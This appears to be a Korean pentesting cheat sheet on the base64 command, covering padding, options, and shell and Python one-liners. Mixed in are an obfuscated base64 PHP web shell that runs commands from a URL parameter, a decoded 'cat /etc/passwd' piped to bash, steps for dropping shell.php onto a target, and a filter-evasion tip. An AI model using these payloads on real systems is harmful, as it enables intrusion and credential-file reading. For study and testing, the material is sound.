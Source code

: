 # base64 - 인코딩/디코딩

---

## 📌 패딩(`=`)이란? → **진짜 중요**

- `Base64`는 3바이트(24비트)를 6비트씩 4개로 쪼개 문자로 인코딩함.
- 원본 데이터가 3바이트 단위가 아니면 6비트를 채우기 위해 `=` 또는 `==`을 **패딩 문자**로 붙임.

| 원본 바이트 수 | 인코딩 후 길이 | 패딩 |
| -------------- | -------------- | ---- |
| 3의 배수       | 정확히 4n      | 없음 |
| 2바이트        | 3 + `=`        | 1개  |
| 1바이트        | 2 + `==`       | 2개  |

🔒 패딩은 **데이터 정렬을 위한 것**이지, **암호화나 보안 요소는 아님**
🛠️ 실전에서는 일부 도구나 웹 필터 우회를 위해 **패딩이 생략**되기도 함
✅ `base64 -d`는 패딩이 없어도 자동으로 보정하여 **디코딩 잘됨**

```bash
# 패딩 있는 경우
echo -n "A" | base64         # → QQ==
# 패딩 없는 버전
echo -n "QQ==" | tr -d '=' | base64 -d
```

---

## 주요 옵션

- `-d`, `--decode` : 디코딩 모드
- `-i`, `--ignore-garbage` : 디코딩 시 base64 문자가 아닌 것 무시
- `-w`, `--wrap=COLS` : COLS 바이트마다 줄바꿈 (기본 76, 0은 줄바꿈 없음)
- `-n` : `echo` 명령어에서 사용, 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

---

## 기본 명령어

### 텍스트 변환

```bash
# text → base64
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
# echo -n : 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

# base64 → text
echo -n "YOUR_STRING_HERE" | tr -d '\n\r ' | base64 -d
# tr 파이프를 활용하여 transform, delete
echo -n "YWRtaW46cGFzc3dvcmQ=" | base64 -d  # admin:password
echo -n "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | tr -d '=' | base64 -d
```

---

### 파일 처리

```bash
# 파일 → base64 (줄바꿈 포함)
base64 shell.php > shell.b64

# 파일 → base64 (한 줄로)
base64 -w 0 shell.php > shell.b64

# base64 → 파일
base64 -d shell.b64 > shell.php
cat shell.b64 | base64 -d > shell.php
```

---

## 깨지는 경우 파이썬으로

### Python

```bash
# 인코딩
python3 -c "import base64; print(base64.b64encode(b'비밀번호').decode())"

# 디코딩
python3 -c "import base64; print(base64.b64decode('67Cx66Gd67KI7Zi4').decode())"

# 파일 인코딩
python3 -c "import base64, sys; print(base64.b64encode(open(sys.argv[1], 'rb').read()).decode())" shell.php
```

---

### 원라이너

```bash
# 명령어 인코딩 후 실행
echo -n "cat /etc/passwd" | base64     # Y2F0IC9ldGMvcGFzc3dk
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash     # 원격지에서 실행
```

---

## 침투 활용

### 파일 전송

```bash
# 공격자 → 대상 서버
base64 -w 0 shell.php > shell.txt     # 로컬에서 인코딩
# shell.txt 내용을 복사하여 타겟 서버에 붙여넣기
base64 -d > shell.php << 'EOF'        # 타겟에서 실행
[붙여넣은 내용]
EOF
```

---

### 웹쉘 우회

```bash
# 기본 디코딩 웹쉘 템플릿
<?php
$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode($data));
?>

# 파일로 저장
echo "<?php
\$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode(\$data));
?>" > decode.php

# 실행
php decode.php
```

---

### Basic 인증

```bash
# Basic 인증 헤더 생성
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
curl -H "Authorization: Basic YWRtaW46cGFzc3dvcmQ=" https://target.com/
```

---
